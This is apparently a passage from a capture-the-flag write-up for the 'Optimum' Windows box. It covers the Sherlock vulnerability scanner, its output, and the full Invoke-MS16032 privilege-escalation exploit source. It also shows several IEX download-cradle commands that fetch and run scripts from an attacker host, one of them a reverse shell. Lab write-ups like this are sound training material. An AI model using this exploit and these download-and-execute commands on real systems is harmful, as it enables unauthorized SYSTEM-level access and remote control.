    $ProcessArchitecture = $env:PROCESSOR_ARCHITECTURE

    return $CPUArchitecture, $ProcessArchitecture

}

function Get-CPUCoreCount {

    $CoreCount = (Get-WmiObject Win32_Processor).NumberOfLogicalProcessors

    return $CoreCount

}

function New-ExploitTable {

    # Create the table
    $Global:ExploitTable = New-Object System.Data.DataTable

    # Create the columns
    $Global:ExploitTable.Columns.Add("Title")
    $Global:ExploitTable.Columns.Add("MSBulletin")
    $Global:ExploitTable.Columns.Add("CVEID")
    $Global:ExploitTable.Columns.Add("Link")
    $Global:ExploitTable.Columns.Add("VulnStatus")

    # Add the exploits we are interested in.

    # MS10
    $Global:ExploitTable.Rows.Add("User Mode to Ring (KiTrap0D)","MS10-015","2010-0232","https://www.exploit-db.com/exploits/11199/")
    $Global:ExploitTable.Rows.Add("Task Scheduler .XML","MS10-092","2010-3338, 2010-3888","https://www.exploit-db.com/exploits/19930/")
    # MS13
    $Global:ExploitTable.Rows.Add("NTUserMessageCall Win32k Kernel Pool Overflow","MS13-053","2013-1300","https://www.exploit-db.com/exploits/33213/")
    $Global:ExploitTable.Rows.Add("TrackPopupMenuEx Win32k NULL Page","MS13-081","2013-3881","https://www.exploit-db.com/exploits/31576/")
    # MS14
    $Global:ExploitTable.Rows.Add("TrackPopupMenu Win32k Null Pointer Dereference","MS14-058","2014-4113","https://www.exploit-db.com/exploits/35101/")
    # MS15
    $Global:ExploitTable.Rows.Add("ClientCopyImage Win32k","MS15-051","2015-1701, 2015-2433","https://www.exploit-db.com/exploits/37367/")
    $Global:ExploitTable.Rows.Add("Font Driver Buffer Overflow","MS15-078","2015-2426, 2015-2433","https://www.exploit-db.com/exploits/38222/")
    # MS16
    $Global:ExploitTable.Rows.Add("'mrxdav.sys' WebDAV","MS16-016","2016-0051","https://www.exploit-db.com/exploits/40085/")
    $Global:ExploitTable.Rows.Add("Secondary Logon Handle","MS16-032","2016-0099","https://www.exploit-db.com/exploits/39719/")
    $Global:ExploitTable.Rows.Add("Win32k Elevation of Privilege","MS16-135","2016-7255","https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135")
    # Miscs that aren't MS
    $Global:ExploitTable.Rows.Add("Nessus Agent 6.6.2 - 6.10.3","N/A","2017-7199","https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.html")

}

function Set-ExploitTable ($MSBulletin, $VulnStatus) {

    if ( $MSBulletin -like "MS*" ) {

        $Global:ExploitTable | Where { $_.MSBulletin -eq $MSBulletin

        } | ForEach-Object {

            $_.VulnStatus = $VulnStatus

        }

    } else {


    $Global:ExploitTable | Where { $_.CVEID -eq $MSBulletin

        } | ForEach-Object {

            $_.VulnStatus = $VulnStatus

        }

    }

}

function Get-Results {

    $Global:ExploitTable

}

function Find-AllVulns {

    if ( !$Global:ExploitTable ) {

        $null = New-ExploitTable

    }

        Find-MS10015
        Find-MS10092
        Find-MS13053
        Find-MS13081
        Find-MS14058
        Find-MS15051
        Find-MS15078
        Find-MS16016
        Find-MS16032
        Find-MS16135
        Find-CVE20177199

        Get-Results

}

function Find-MS10015 {

    $MSBulletin = "MS10-015"
    $Architecture = Get-Architecture

    if ( $Architecture[0] -eq "64-bit" ) {

        $VulnStatus = "Not supported on 64-bit systems"

    } Else {

        $Path = $env:windir + "\system32\ntoskrnl.exe"
        $VersionInfo = Get-FileVersionInfo($Path)
        $VersionInfo = $VersionInfo.Split(".")

        $Build = $VersionInfo[2]
        $Revision = $VersionInfo[3].Split(" ")[0]

        switch ( $Build ) {

            7600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "20591" ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    }

    Set-ExploitTable $MSBulletin $VulnStatus

}

function Find-MS10092 {

    $MSBulletin = "MS10-092"
    $Architecture = Get-Architecture

    if ( $Architecture[1] -eq "AMD64" -or $Architecture[0] -eq "32-bit" ) {

        $Path = $env:windir + "\system32\schedsvc.dll"

    } ElseIf ( $Architecture[0] -eq "64-bit" -and $Architecture[1] -eq "x86" ) {

        $Path = $env:windir + "\sysnative\schedsvc.dll"

    }

        $VersionInfo = Get-FileVersionInfo($Path)
        $VersionInfo = $VersionInfo.Split(".")

        $Build = $VersionInfo[2]
        $Revision = $VersionInfo[3].Split(" ")[0]

        switch ( $Build ) {

            7600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "20830" ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    Set-ExploitTable $MSBulletin $VulnStatus

}

function Find-MS13053 {

    $MSBulletin = "MS13-053"
    $Architecture = Get-Architecture

    if ( $Architecture[0] -eq "64-bit" ) {

        $VulnStatus = "Not supported on 64-bit systems"

    } Else {

        $Path = $env:windir + "\system32\win32k.sys"
        $VersionInfo = Get-FileVersionInfo($Path)
        $VersionInfo = $VersionInfo.Split(".")

        $Build = $VersionInfo[2]
        $Revision = $VersionInfo[3].Split(" ")[0]

        switch ( $Build ) {

            7600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -ge "17000" ] }
            7601 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "22348" ] }
            9200 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "20732" ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    }

    Set-ExploitTable $MSBulletin $VulnStatus

}

function Find-MS13081 {

    $MSBulletin = "MS13-081"
    $Architecture = Get-Architecture

    if ( $Architecture[0] -eq "64-bit" ) {

        $VulnStatus = "Not supported on 64-bit systems"

    } Else {

        $Path = $env:windir + "\system32\win32k.sys"
        $VersionInfo = Get-FileVersionInfo($Path)
        $VersionInfo = $VersionInfo.Split(".")

        $Build = $VersionInfo[2]
        $Revision = $VersionInfo[3].Split(" ")[0]

        switch ( $Build ) {

            7600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -ge "18000" ] }
            7601 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "22435" ] }
            9200 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "20807" ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    }

    Set-ExploitTable $MSBulletin $VulnStatus

}

function Find-MS14058 {

    $MSBulletin = "MS14-058"
    $Architecture = Get-Architecture

    if ( $Architecture[1] -eq "AMD64" -or $Architecture[0] -eq "32-bit" ) {

        $Path = $env:windir + "\system32\win32k.sys"

    } ElseIf ( $Architecture[0] -eq "64-bit" -and $Architecture[1] -eq "x86" ) {

        $Path = $env:windir + "\sysnative\win32k.sys"

    }

        $VersionInfo = Get-FileVersionInfo($Path)
        $VersionInfo = $VersionInfo.Split(".")

        $Build = $VersionInfo[2]
        $Revision = $VersionInfo[3].Split(" ")[0]

        switch ( $Build ) {

            7600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -ge "18000" ] }
            7601 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "22823" ] }
            9200 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "21247" ] }
            9600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "17353" ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    Set-ExploitTable $MSBulletin $VulnStatus

}

function Find-MS15051 {

    $MSBulletin = "MS15-051"
    $Architecture = Get-Architecture

    if ( $Architecture[1] -eq "AMD64" -or $Architecture[0] -eq "32-bit" ) {

        $Path = $env:windir + "\system32\win32k.sys"

    } ElseIf ( $Architecture[0] -eq "64-bit" -and $Architecture[1] -eq "x86" ) {

        $Path = $env:windir + "\sysnative\win32k.sys"

    }

        $VersionInfo = Get-FileVersionInfo($Path)
        $VersionInfo = $VersionInfo.Split(".")

        $Build = $VersionInfo[2]
        $Revision = $VersionInfo[3].Split(" ")[0]

        switch ( $Build ) {

            7600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "18000" ] }
            7601 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "22823" ] }
            9200 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "21247" ] }
            9600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "17353" ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    Set-ExploitTable $MSBulletin $VulnStatus

}

function Find-MS15078 {

    $MSBulletin = "MS15-078"

    $Path = $env:windir + "\system32\atmfd.dll"
    $VersionInfo = Get-FileVersionInfo($Path)
    $VersionInfo = $VersionInfo.Split(" ")

    $Revision = $VersionInfo[2]

    switch ( $Revision ) {

        243 { $VulnStatus = "Appears Vulnerable" }
        default { $VulnStatus = "Not Vulnerable" }

    }

    Set-ExploitTable $MSBulletin $VulnStatus

}

function Find-MS16016 {

    $MSBulletin = "MS16-016"
    $Architecture = Get-Architecture

    if ( $Architecture[0] -eq "64-bit" ) {

        $VulnStatus = "Not supported on 64-bit systems"

    } Else {

        $Path = $env:windir + "\system32\drivers\mrxdav.sys"
        $VersionInfo = Get-FileVersionInfo($Path)
        $VersionInfo = $VersionInfo.Split(".")

        $Build = $VersionInfo[2]
        $Revision = $VersionInfo[3].Split(" ")[0]

        switch ( $Build ) {

            7600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "16000" ] }
            7601 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "23317" ] }
            9200 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "21738" ] }
            9600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "18189" ] }
            10240 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "16683" ] }
            10586 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le "103" ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    }

    Set-ExploitTable $MSBulletin $VulnStatus

}

function Find-MS16032 {

    $MSBulletin = "MS16-032"

    $CPUCount = Get-CPUCoreCount

    if ( $CPUCount -eq "1" ) {

        $VulnStatus = "Not Supported on single-core systems"

    } Else {

        $Architecture = Get-Architecture

        if ( $Architecture[1] -eq "AMD64" -or $Architecture[0] -eq "32-bit" ) {

            $Path = $env:windir + "\system32\seclogon.dll"

        } ElseIf ( $Architecture[0] -eq "64-bit" -and $Architecture[1] -eq "x86" ) {

            $Path = $env:windir + "\sysnative\seclogon.dll"

        }

            $VersionInfo = Get-FileVersionInfo($Path)

            $VersionInfo = $VersionInfo.Split(".")

            $Build = [int]$VersionInfo[2]
            $Revision = [int]$VersionInfo[3].Split(" ")[0]

            switch ( $Build ) {

                6002 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revison -lt 19598 -Or ( $Revision -ge 23000 -And $Revision -le 23909 ) ] }
                7600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 19148 ] }
                7601 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -lt 19148 -Or ( $Revision -ge 23000 -And $Revision -le 23347 ) ] }
                9200 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revison -lt 17649 -Or ( $Revision -ge 21000 -And $Revision -le 21767 ) ] }
                9600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revison -lt 18230 ] }
                10240 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -lt 16724 ] }
                10586 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 161 ] }
                default { $VulnStatus = "Not Vulnerable" }

            }
    }

    Set-ExploitTable $MSBulletin $VulnStatus

}

function Find-CVE20177199 {

    $CVEID = "2017-7199"
    $SoftwareVersion = Get-InstalledSoftware "Nessus Agent"

    if ( !$SoftwareVersion ) {

        $VulnStatus = "Not Vulnerable"

    } else {

        $SoftwareVersion = $SoftwareVersion.Split(".")

        $Major = [int]$SoftwareVersion[0]
        $Minor = [int]$SoftwareVersion[1]
        $Build = [int]$SoftwareVersion[2]

        switch( $Major ) {

        6 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Minor -eq 10 -and $Build -le 3 -Or ( $Minor -eq 6 -and $Build -le 2 ) -Or ( $Minor -le 9 -and $Minor -ge 7 ) ] } # 6.6.2 - 6.10.3
        default { $VulnStatus = "Not Vulnerable" }

        }

    }

    Set-ExploitTable $CVEID $VulnStatus

}

function Find-MS16135 {

    $MSBulletin = "MS16-135"
    $Architecture = Get-Architecture

    if ( $Architecture[1] -eq "AMD64" -or $Architecture[0] -eq "32-bit" ) {

        $Path = $env:windir + "\system32\win32k.sys"

    } ElseIf ( $Architecture[0] -eq "64-bit" -and $Architecture[1] -eq "x86" ) {

        $Path = $env:windir + "\sysnative\win32k.sys"

    }

        $VersionInfo = Get-FileVersionInfo($Path)
        $VersionInfo = $VersionInfo.Split(".")

        $Build = [int]$VersionInfo[2]
        $Revision = [int]$VersionInfo[3].Split(" ")[0]

        switch ( $Build ) {

            7601 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -lt 23584 ] }
            9600 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 18524 ] }
            10240 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 16384 ] }
            10586 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 19 ] }
            14393 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 446 ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    Set-ExploitTable $MSBulletin $VulnStatus

}
Find-AllVulns
```

```sh
root@kali:~/optimum/Sherlock# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.8 - - [23/Jan/2018 00:06:38] "GET /Sherlock.ps1 HTTP/1.1" 200 -
```

```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.Webclient).downloadString('http://10.10.14.5:8000/Sherlock.ps1')


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Not Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable


PS C:\Users\kostas\Desktop>
```

- [``MS16-032``](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032)

```sh
root@kali:~# cd /opt/empire/
root@kali:/opt/empire# ls
changelog  data  Dockerfile  downloads  empire  lib  LICENSE  plugins  README.md  setup  VERSION
root@kali:/opt/empire# cd data/
root@kali:/opt/empire/data# ls
agent  empire-chain.pem  empire.db  empire-priv.key  misc  module_source  obfuscated_module_source  profiles
root@kali:/opt/empire/data# cd module_source/
root@kali:/opt/empire/data/module_source# ls
code_execution  collection  credentials  exfil  exploitation  fun  lateral_movement  management  persistence  privesc  python  recon  situational_awareness  trollsploit
root@kali:/opt/empire/data/module_source# cd privesc/
root@kali:/opt/empire/data/module_source/privesc# ls
Get-GPPPassword.ps1       Get-System.ps1        Invoke-BypassUACTokenManipulation.ps1  Invoke-EventVwrBypass.ps1   Invoke-MS16032.ps1  Invoke-SDCLTBypass.ps1  Invoke-WScriptBypassUAC.ps1
Get-SiteListPassword.ps1  Invoke-BypassUAC.ps1  Invoke-EnvBypass.ps1                   Invoke-FodHelperBypass.ps1  Invoke-MS16135.ps1  Invoke-Tater.ps1        PowerUp.ps1
root@kali:/opt/empire/data/module_source/privesc# less Invoke-MS16032.ps1
root@kali:/opt/empire/data/module_source/privesc# cp Invoke-MS16032.ps1 /root/optimum/
root@kali:/opt/empire/data/module_source/privesc# cd /root/optimum/
root@kali:~/optimum# ls
cheat.txt  Invoke-MS16032.ps1  Invoke-PowerShellTcp.ps1  nishang  optimum.nmap.gnmap  optimum.nmap.nmap  optimum.nmap.xml  Sherlock
root@kali:~/optimum# 
```

- ``Invoke-MS16032.ps1``

```sh
function Invoke-MS16032 {
<#
    .SYNOPSIS

        PowerShell implementation of MS16-032. The exploit targets all vulnerable
        operating systems that support PowerShell v2+. Credit for the discovery of
        the bug and the logic to exploit it go to James Forshaw (@tiraniddo).

        Targets:

        * Win7-Win10 & 2k8-2k12 <== 32/64 bit!
        * Tested on x32 Win7, x64 Win8, x64 2k12R2

        Notes:

        * In order for the race condition to succeed the machine must have 2+ CPU
          cores. If testing in a VM just make sure to add a core if needed mkay.
        * The exploit is pretty reliable, however ~1/6 times it will say it succeeded
          but not spawn a shell. Not sure what the issue is but just re-run and profit!
        * Want to know more about MS16-032 ==>
          https://googleprojectzero.blogspot.co.uk/2016/03/exploiting-leaked-thread-handle.html

    .DESCRIPTION

        Author: Ruben Boonen (@FuzzySec)
        Blog: http://www.fuzzysecurity.com/
        License: BSD 3-Clause
        Required Dependencies: PowerShell v2+
        Optional Dependencies: None
        E-DB Note: Source ~ https://twitter.com/FuzzySec/status/723254004042612736

        EDIT: This script has been edited to include a parameter for custom commands and
        also hides the spawned shell. Many comments have also been removed and echo has
        moved to Write-Verbose. The original can be found at:
            https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

    .EXAMPLE

        C:\PS> Invoke-MS16-032 -Command "iex(New-Object Net.WebClient).DownloadString('http://google.com')"

        Description
        -----------
        Will run the iex download cradle as SYSTEM

#>
    [CmdletBinding()]
    param(

        [Parameter(Position=0,Mandatory=$True)]
        [String]
        $Command
    )

    Add-Type -TypeDefinition @"
    using System;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.Security.Principal;

    [StructLayout(LayoutKind.Sequential)]
    public struct PROCESS_INFORMATION
    {
        public IntPtr hProcess;
        public IntPtr hThread;
        public int dwProcessId;
        public int dwThreadId;
    }

    [StructLayout(LayoutKind.Sequential, CharSet=CharSet.Unicode)]
    public struct STARTUPINFO
    {
        public Int32 cb;
        public string lpReserved;
        public string lpDesktop;
        public string lpTitle;
        public Int32 dwX;
        public Int32 dwY;
        public Int32 dwXSize;
        public Int32 dwYSize;
        public Int32 dwXCountChars;
        public Int32 dwYCountChars;
        public Int32 dwFillAttribute;
        public Int32 dwFlags;
        public Int16 wShowWindow;
        public Int16 cbReserved2;
        public IntPtr lpReserved2;
        public IntPtr hStdInput;
        public IntPtr hStdOutput;
        public IntPtr hStdError;
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct SQOS
    {
        public int Length;
        public int ImpersonationLevel;
        public int ContextTrackingMode;
        public bool EffectiveOnly;
    }

    public static class Advapi32
    {
        [DllImport("advapi32.dll", SetLastError=true, CharSet=CharSet.Unicode)]
        public static extern bool CreateProcessWithLogonW(
            String userName,
            String domain,
            String password,
            int logonFlags,
            String applicationName,
            String commandLine,
            int creationFlags,
            int environment,
            String currentDirectory,
            ref  STARTUPINFO startupInfo,
            out PROCESS_INFORMATION processInformation);

        [DllImport("advapi32.dll", SetLastError=true)]
        public static extern bool SetThreadToken(
            ref IntPtr Thread,
            IntPtr Token);

        [DllImport("advapi32.dll", SetLastError=true)]
        public static extern bool OpenThreadToken(
            IntPtr ThreadHandle,
            int DesiredAccess,
            bool OpenAsSelf,
            out IntPtr TokenHandle);

        [DllImport("advapi32.dll", SetLastError=true)]
        public static extern bool OpenProcessToken(
            IntPtr ProcessHandle,
            int DesiredAccess,
            ref IntPtr TokenHandle);

        [DllImport("advapi32.dll", SetLastError=true)]
        public extern static bool DuplicateToken(
            IntPtr ExistingTokenHandle,
            int SECURITY_IMPERSONATION_LEVEL,
            ref IntPtr DuplicateTokenHandle);
    }

    public static class Kernel32
    {
        [DllImport("kernel32.dll")]
        public static extern uint GetLastError();

        [DllImport("kernel32.dll", SetLastError=true)]
        public static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll", SetLastError=true)]
        public static extern IntPtr GetCurrentThread();

        [DllImport("kernel32.dll", SetLastError=true)]
        public static extern int GetThreadId(IntPtr hThread);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern int GetProcessIdOfThread(IntPtr handle);

        [DllImport("kernel32.dll",SetLastError=true)]
        public static extern int SuspendThread(IntPtr hThread);

        [DllImport("kernel32.dll",SetLastError=true)]
        public static extern int ResumeThread(IntPtr hThread);

        [DllImport("kernel32.dll", SetLastError=true)]
        public static extern bool TerminateProcess(
            IntPtr hProcess,
            uint uExitCode);

        [DllImport("kernel32.dll", SetLastError=true)]
        public static extern bool CloseHandle(IntPtr hObject);

        [DllImport("kernel32.dll", SetLastError=true)]
        public static extern bool DuplicateHandle(
            IntPtr hSourceProcessHandle,
            IntPtr hSourceHandle,
            IntPtr hTargetProcessHandle,
            ref IntPtr lpTargetHandle,
            int dwDesiredAccess,
            bool bInheritHandle,
            int dwOptions);
    }

    public static class Ntdll
    {
        [DllImport("ntdll.dll", SetLastError=true)]
        public static extern int NtImpersonateThread(
            IntPtr ThreadHandle,
            IntPtr ThreadToImpersonate,
            ref SQOS SecurityQualityOfService);
    }
"@

    function Get-ThreadHandle {
        $StartupInfo = New-Object STARTUPINFO
        $StartupInfo.dwFlags = 0x00000100
        $StartupInfo.hStdInput = [Kernel32]::GetCurrentThread()
        $StartupInfo.hStdOutput = [Kernel32]::GetCurrentThread()
        $StartupInfo.hStdError = [Kernel32]::GetCurrentThread()
        $StartupInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($StartupInfo)

        $ProcessInfo = New-Object PROCESS_INFORMATION
        $GetCurrentPath = (Get-Item -Path ".\" -Verbose).FullName

        $CallResult = [Advapi32]::CreateProcessWithLogonW(
            "user", "domain", "pass",
            0x00000002, "C:\Windows\System32\cmd.exe", "",
            0x00000004, $null, $GetCurrentPath,
            [ref]$StartupInfo, [ref]$ProcessInfo)

        $lpTargetHandle = [IntPtr]::Zero
        $CallResult = [Kernel32]::DuplicateHandle(
            $ProcessInfo.hProcess, 0x4,
            [Kernel32]::GetCurrentProcess(),
            [ref]$lpTargetHandle, 0, $false,
            0x00000002)

        $CallResult = [Kernel32]::TerminateProcess($ProcessInfo.hProcess, 1)
        $CallResult = [Kernel32]::CloseHandle($ProcessInfo.hProcess)
        $CallResult = [Kernel32]::CloseHandle($ProcessInfo.hThread)

        $lpTargetHandle
    }

    function Get-SystemToken {
        Write-Verbose "`n[?] Trying thread handle: $Thread"
        Write-Verbose "[?] Thread belongs to: $($(Get-Process -PID $([Kernel32]::GetProcessIdOfThread($Thread))).ProcessName)"

        $CallResult = [Kernel32]::SuspendThread($Thread)
        if ($CallResult -ne 0) {
            Write-Verbose "[!] $Thread is a bad thread, moving on.."
            Return
        } Write-Verbose "[+] Thread suspended"

        Write-Verbose "[>] Wiping current impersonation token"
        $CallResult = [Advapi32]::SetThreadToken([ref]$Thread, [IntPtr]::Zero)
        if (!$CallResult) {
            Write-Verbose "[!] SetThreadToken failed, moving on.."
            $CallResult = [Kernel32]::ResumeThread($Thread)
            Write-Verbose "[+] Thread resumed!"
            Return
        }

        Write-Verbose "[>] Building SYSTEM impersonation token"
        $SQOS = New-Object SQOS
        $SQOS.ImpersonationLevel = 2
        $SQOS.Length = [System.Runtime.InteropServices.Marshal]::SizeOf($SQOS)
        $CallResult = [Ntdll]::NtImpersonateThread($Thread, $Thread, [ref]$sqos)
        if ($CallResult -ne 0) {
            Write-Verbose "[!] NtImpersonateThread failed, moving on.."
            $CallResult = [Kernel32]::ResumeThread($Thread)
            Write-Verbose "[+] Thread resumed!"
            Return
        }

        $script:SysTokenHandle = [IntPtr]::Zero
        $CallResult = [Advapi32]::OpenThreadToken($Thread, 0x0006, $false, [ref]$SysTokenHandle)
        if (!$CallResult) {
            Write-Verbose "[!] OpenThreadToken failed, moving on.."
            $CallResult = [Kernel32]::ResumeThread($Thread)
            Write-Verbose "[+] Thread resumed!"
            Return
        }

        Write-Verbose "[?] Success, open SYSTEM token handle: $SysTokenHandle"
        Write-Verbose "[+] Resuming thread.."
        $CallResult = [Kernel32]::ResumeThread($Thread)
    }

    $ms16032 = @"
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]
"@

    $ms16032

    Write-Verbose "`n[?] Operating system core count: $([System.Environment]::ProcessorCount)"
    if ($([System.Environment]::ProcessorCount) -lt 2) {
        "[!] This is a VM isn't it, race condition requires at least 2 CPU cores, exiting!`n"
        Return
    }

    $ThreadArray = @()
    $TidArray = @()

    Write-Verbose "[>] Duplicating CreateProcessWithLogonW handles.."
    for ($i=0; $i -lt 500; $i++) {
        $hThread = Get-ThreadHandle
        $hThreadID = [Kernel32]::GetThreadId($hThread)
        if ($TidArray -notcontains $hThreadID) {
            $TidArray += $hThreadID
            if ($hThread -ne 0) {
                $ThreadArray += $hThread
            }
        }
    }

    if ($($ThreadArray.length) -eq 0) {
        "[!] No valid thread handles were captured, exiting!"
        Return
    } else {
        Write-Verbose "[?] Done, got $($ThreadArray.length) thread handle(s)!"
        Write-Verbose "`n[?] Thread handle list:"
    }

    Write-Verbose "`n[*] Sniffing out privileged impersonation token.."
    foreach ($Thread in $ThreadArray){

        Get-SystemToken

        Write-Verbose "`n[*] Sniffing out SYSTEM shell.."
        Write-Verbose "`n[>] Duplicating SYSTEM token"
        $hDuplicateTokenHandle = [IntPtr]::Zero
        $CallResult = [Advapi32]::DuplicateToken($SysTokenHandle, 2, [ref]$hDuplicateTokenHandle)

        Write-Verbose "[>] Starting token race"
        $Runspace = [runspacefactory]::CreateRunspace()
        $StartTokenRace = [powershell]::Create()
        $StartTokenRace.runspace = $Runspace
        $Runspace.Open()
        [void]$StartTokenRace.AddScript({
            Param ($Thread, $hDuplicateTokenHandle)
            while ($true) {
                $CallResult = [Advapi32]::SetThreadToken([ref]$Thread, $hDuplicateTokenHandle)
            }
        }).AddArgument($Thread).AddArgument($hDuplicateTokenHandle)
        $AscObj = $StartTokenRace.BeginInvoke()

        Write-Verbose "[>] Starting process race"
        $SafeGuard = [diagnostics.stopwatch]::StartNew()
        while ($SafeGuard.ElapsedMilliseconds -lt 10000) {
            $StartupInfo = New-Object STARTUPINFO
            # 2 lines added to hide window
            $StartupInfo.dwFlags = 0x00000001
            $StartupInfo.wShowWindow = 0x00000000
            $StartupInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($StartupInfo) # Struct Size

            $ProcessInfo = New-Object PROCESS_INFORMATION

            $GetCurrentPath = (Get-Item -Path ".\" -Verbose).FullName

            $CallResult = [Advapi32]::CreateProcessWithLogonW(
                "user", "domain", "pass",
                0x00000002, "$Env:SystemRoot\System32\WindowsPowerShell\v1.0\powershell.exe", " -command $Command",
                0x00000004, $null, $GetCurrentPath,
                [ref]$StartupInfo, [ref]$ProcessInfo)

            $hTokenHandle = [IntPtr]::Zero
            $CallResult = [Advapi32]::OpenProcessToken($ProcessInfo.hProcess, 0x28, [ref]$hTokenHandle)
            if (!$CallResult) {
                "`n[!] Holy handle leak Batman, we have a SYSTEM shell!!`n"
                $CallResult = [Kernel32]::ResumeThread($ProcessInfo.hThread)
                $StartTokenRace.Stop()
                $SafeGuard.Stop()
                Return
            }

            $CallResult = [Kernel32]::TerminateProcess($ProcessInfo.hProcess, 1)
            $CallResult = [Kernel32]::CloseHandle($ProcessInfo.hProcess)
            $CallResult = [Kernel32]::CloseHandle($ProcessInfo.hThread)
        }

        $StartTokenRace.Stop()
        $SafeGuard.Stop()
    }
}

Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.5:8000/shell.ps1')"
```

```sh
root@kali:~/optimum# ls
cheat.txt  Invoke-MS16032.ps1  Invoke-PowerShellTcp.ps1  nishang  optimum.nmap.gnmap  optimum.nmap.nmap  optimum.nmap.xml  Sherlock
root@kali:~/optimum# cp Invoke-PowerShellTcp.ps1 shell.ps1
root@kali:~/optimum# nano shell.ps1
